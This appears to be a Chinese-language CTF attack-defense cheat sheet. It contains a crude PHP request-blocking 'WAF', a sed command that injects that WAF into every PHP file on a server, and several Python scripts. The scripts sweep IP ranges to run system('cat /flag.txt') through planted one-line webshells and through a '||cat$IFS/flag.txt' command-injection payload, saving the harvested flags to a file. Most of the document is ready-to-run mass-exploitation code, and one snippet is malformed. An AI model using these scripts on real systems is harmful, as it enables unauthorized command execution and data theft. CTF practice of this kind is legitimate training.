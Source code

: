 # *waf*
```php
<?php
foreach($_REQUEST as $f){
    if(strlen($f)>0){
        die('我是你爹');
        phpinfo();
    }
}
foreach($_COOKIE as $f){
    if(strlen($f)>0){
        die('我是你爸}');
        phpinfo();
    }
}
foreach($_SESSION as $f){
    if(strlen($f)>0){
        die('我是你爷爷');
        phpinfo();
    }
}
?>
```

写在/tmp下，然后执行命令

    find /var/www/html -name "*.php"|xargs sed -i "s/<?php/<?php\nrequire('\/tmp\/waf.php');/g"

直接上awf

- tip

为什么要用require而不用include呢，首先require一定会执行并且遇到错误无法执行，include遇到错误直接跳过，其次require无论位置在哪都会首先执行，include则是遇到了才会执行，并且require是无条件包含，所以一定要用require防止包含失效被打穿

# 一句话木马脚本
```python
import requests
import re

ur='http://10.30.'
url='.116/shell.php'
for i in range(1,2,1):
    i=str(i)
    sb=ur+i+url
    pay={'shell':"system('cat /flag.txt');"}
    try:
        a=requests.post(url=sb,data=pay,timeout=2).text
        b=re.findall(r'\w{15,60}',a)
    except:
        b=''
    if len(b)>0:
        for i in b:
            with open ("1.txt","a+") as f:
                f.write(sb+' '+i+'\n')
import requests
for i in range(101,130):
payload={"shell":"system('cat /flag.txt')"}
    try:
        a=requests.post(url="http://172.20."+str(i)+".101/shell.php",data=payload).text
        print(a)
    except:
        pass
```
`(看好是post还是get,如果是get自己修改下面命令注入的脚本)`
```python
import requests
import re
url="http://172.20."         #ip地址，如果是1.1.1.1,1.1.2.1请使用这个，然后根据网段自行修改自行修改
urll=".1/shell.php"          #如果不是index.php请自行修改为一句话木马的地址
payload={"shell":"system('cat /flag.txt');"}     #shell为一句话木马密码，请自行修改
for i in range(101,109):                   #从192.168.1.1-192.168.10.1,请根据靶机ip自行修改
    print(url+str(i)+urll)
    i=str(i)        #将i转换成字符型，不然无法拼接
    cc=url+i        #拼接
    cc=cc+urll      #拼接
    try:
        a=requests.post(url=cc,data=payload,timeout=1).text
        b=re.findall(r'[a-z0-9]{15,30}',a)      #正则匹配，表示匹配小写字母与数字组合长度为15-30位，根据flag位数自行修改，例如确定flag是20位那就直接r'[a-z0-9]{20}'
    except:
        b=''
    if len(b)>0:
        for j in b:
            f=open('1.txt','a+')    #输出至1.txt,可以自行修改
            f.write(url+i+".1 "+j+'\n')     #靶机ip第四位.1,根据情况自行修改
```
# 命令注入与文件包含通用脚本(根据漏洞自行修改)
```python
import requests
import re
url="172.20.10."
urll="/index.php?abc=127.0.0.1||cat$IFS/flag.txt"   #自行修改payload，本脚本展示get型命令注入与文件包含，看好题型如果是post自行修改
for i in range(1,10):
    i=str(i)
    try:
        a=requests.get(url=url+i+urll).text
        b=re.findall(r'flag{.*}', a)
    except:
        b=''
    if(len(b)>0):
        for j in b:
            f=open('1.txt','a+')
            f.write(url+i+" "+j+'\n')
```